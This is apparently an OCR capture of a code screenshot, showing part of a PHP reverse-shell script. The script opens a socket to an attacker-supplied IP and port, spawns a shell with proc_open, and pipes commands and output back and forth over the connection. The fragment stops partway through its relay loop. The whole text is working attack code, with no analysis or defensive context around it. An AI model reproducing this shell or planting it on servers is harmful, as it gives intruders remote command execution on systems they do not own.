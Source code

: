 ```bash

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
```